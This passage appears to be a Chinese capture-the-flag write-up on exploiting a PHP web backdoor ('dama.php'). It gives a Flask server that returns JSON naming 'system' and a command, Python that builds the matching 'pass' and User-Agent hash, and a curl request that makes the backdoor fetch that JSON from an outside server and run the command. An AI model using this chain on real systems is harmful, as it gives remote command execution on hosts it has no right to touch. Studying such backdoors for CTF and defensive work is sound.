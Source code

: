 其首先检查UA是否等于md5(POST['pass'])，接着取pass参数的两部分（pass长度要求大于40），组装成一个url，从该url获取一个json，再从json中的f变量获取函数名，d变量获取参数，并执行。

## 0x03 构造恶意json

按之前分析，最省事的方法是在自己服务器上一起个80服务，然后返回恶意json

```python
from flask import Flask,jsonify

app=Flask(__name__)

@app.route('/', methods=['GET'])
def srv():
    resp=dict(f="system",d="ls")
    return jsonify(resp), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

## 0x04 后门利用

最后一步，构造后门请求。首先，假设我服务器是216.126.239.124

先生成pass参数：

```python
In [1]: url="216.126.239.124"

In [2]: _pass='a'*10+url[5:15]+'b'*10+url[:5]+'c'*10

In [3]: _pass
Out[3]: 'aaaaaaaaaa26.239.124bbbbbbbbbb216.1cccccccccc'
```

再生成UA：

```
In [4]: import hashlib

In [5]: hashlib.md5(_pass.encode('ascii')).hexdigest()
Out[5]: '98a36c28cf36c4d8eeb8055a3538562e'
```

尝试发送payload

```
curl http://114.55.36.69:8020/upload/dama.php -X POST -H "User-agent: 98a36c28cf36c4d8eeb8055a3538562e" -d 'pass=aaaaaaaaaa26.239.124bbbbbbbbbb216.1cccccccccc'
```

可以看到payload生效了：

![1571144854091](writeup/1571144854091.png)
